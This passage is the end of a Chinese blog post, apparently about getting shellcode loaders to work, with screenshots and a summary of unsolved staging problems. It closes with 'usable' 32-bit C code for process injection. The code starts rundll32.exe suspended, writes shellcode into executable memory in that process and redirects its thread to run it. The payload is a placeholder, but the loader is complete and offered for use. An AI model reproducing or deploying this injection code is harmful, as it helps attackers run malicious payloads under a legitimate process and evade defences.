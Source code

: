  

![img](http://ww1.sinaimg.cn/large/006tNc79ly1g36r3blmxoj30rm08sglx.jpg)

 

![img](http://ww4.sinaimg.cn/large/006tNc79ly1g36r3i5injj30pg0ckjs2.jpg)

 

弹框的payload成功了，我有点想恭喜我自己，老泪纵横，后面一个障碍都没有么？我的天，难以相信哎。

 

![img](http://ww2.sinaimg.cn/large/006tNc79ly1g36r34op1wj30tv0bqt93.jpg)

 

放入项目，直接成功，心花怒放，BGM~~~。

 

![img](http://ww4.sinaimg.cn/large/006tNc79ly1g36r3cdkfoj30l203ddfr.jpg)

## 总结

弄到这里，我们的目标可以说已经是实现了，但是还有部分问题没有得到解决，比方说，其他的方式为何明明可以执行shellcode，但是却会卡在STAGE阶段？又是什么样的原因导致EXE中可以这样做，在DLL中却不可以？鉴于当时的时间原因，没有进一步调试并寻找问题所在，这里先做一个标记。

下面，附上可用的代码，分别为32位和64位。

32位的：

{% highlight c %}
    #include <windows.h>
    
    int main()
    {
     unsigned char shellcode_calc[] = "shecode_32";
    
     TCHAR CommandLine[] = TEXT("rundll32.exe");
    
     CONTEXT Context;
     struct _STARTUPINFOA StartupInfo; 
     struct _PROCESS_INFORMATION ProcessInformation;
     LPVOID lpBaseAddress; 
    
     ZeroMemory(&StartupInfo, sizeof(StartupInfo));
     StartupInfo.cb = 68;
     if (CreateProcess(0, (LPWSTR)CommandLine, 0, 0, 0, 0x44, 0, 0, (LPSTARTUPINFOW)&StartupInfo, &ProcessInformation)) {
        Context.ContextFlags = 65539;
        GetThreadContext(ProcessInformation.hThread, &Context);
        lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0, 0x800u, 0x1000u, 0x40u);
        WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, &shellcode_calc, 0x800u, 0);
        Context.Eip = (DWORD)lpBaseAddress;
        SetThreadContext(ProcessInformation.hThread, &Context);
        ResumeThread(ProcessInformation.hThread);
        CloseHandle(ProcessInformation.hThread);
        CloseHandle(ProcessInformation.hProcess);
     }
    }
{% endhighlight %}
